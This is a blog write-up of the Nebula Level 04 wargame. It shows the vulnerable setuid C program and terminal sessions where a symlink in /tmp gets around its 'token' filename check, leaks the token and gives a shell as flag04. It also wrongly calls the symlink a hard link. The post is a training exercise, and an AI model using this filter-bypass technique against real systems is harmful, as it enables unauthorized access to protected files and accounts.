 ```yaml
---
layout: post
title: 'Exploit Exercises: Nebula Level 04'
date: 2018-07-16 15:48 -0300
categories: [nebula, writeups]
tags: [ nebula, writeups, level, exploit, exercise, tutorial, solution]
---
```


![Image of Nebula Terminal](/uploads/Screenshot%20from%202018-07-16%2000-20-16.png)

This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

To do this level, log in as the level04 account with the password level04. Files for this level can be found in /home/flag04.

### Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));

  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

### Solution

After login we go to the flag account folder.

```terminal
level04@nebula:~$ cd /home/flag04/
level04@nebula:/home/flag04$ ls -al
total 13
drwxr-x--- 2 flag04 level04   93 Nov 20  2011 .
drwxr-xr-x 1 root   root      80 Aug 27  2012 ..
-rw-r--r-- 1 flag04 flag04   220 May 18  2011 .bash_logout
-rw-r--r-- 1 flag04 flag04  3353 May 18  2011 .bashrc
-rw-r--r-- 1 flag04 flag04   675 May 18  2011 .profile
-rwsr-x--- 1 flag04 level04 7428 Nov 20  2011 flag04
-rw------- 1 flag04 flag04    37 Nov 20  2011 token
level04@nebula:/home/flag04$
```

Hmm, let’s get more info by trying some basic commands.

```terminal
level04@nebula:/home/flag04$ ls -al
total 13
drwxr-x--- 2 flag04 level04   93 Nov 20  2011 .
drwxr-xr-x 1 root   root      80 Aug 27  2012 ..
-rw-r--r-- 1 flag04 flag04   220 May 18  2011 .bash_logout
-rw-r--r-- 1 flag04 flag04  3353 May 18  2011 .bashrc
-rw-r--r-- 1 flag04 flag04   675 May 18  2011 .profile
-rwsr-x--- 1 flag04 level04 7428 Nov 20  2011 flag04
-rw------- 1 flag04 flag04    37 Nov 20  2011 token
level04@nebula:/home/flag04$ file flag04
flag04: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
level04@nebula:/home/flag04$ ./flag04
./flag04 [file to read]
level04@nebula:/home/flag04$ cat token
cat: token: Permission denied
level04@nebula:/home/flag04$ ./flag04 token
You may not access 'token'
level04@nebula:/home/flag04$
```

Permission denied. Really? Nope. Where do we control everything as any user? Well …​ In /tmp/ folder and as we did in previous tutorials hard link are hard link!

```terminal
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/level04
level04@nebula:/home/flag04$ ls -la /tmp
total 0
drwxrwxrwt 4 root    root    100 Oct 16 13:18 .
drwxr-xr-x 1 root    root    220 Oct 16  2017 ..
drwxrwxrwt 2 root    root     40 Oct 16  2017 .ICE-unix
drwxrwxrwt 2 root    root     40 Oct 16  2017 .X11-unix
lrwxrwxrwx 1 level04 level04  18 Oct 16 13:17 level04 -> /home/flag04/token
level04@nebula:/home/flag04$
```

That funny moment when you see the "lrwxrwxrwx" as permission for your hard link. Let’s end this.

```terminal
level04@nebula:/home/flag04$ ./flag04 /tmp/level04
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$
```

Now keep in mind that tokens in this exploit tutorial are used as passwords for the flag account.

```terminal
level04@nebula:/home/flag04$ su flag04
Password:
sh-4.2$ id
uid=995(flag04) gid=995(flag04) groups=995(flag04)
sh-4.2$ getflag
You have successfully executed getflag on a target account
sh-4.2$
```

See you in the next tutorial. Share, Like and ask!
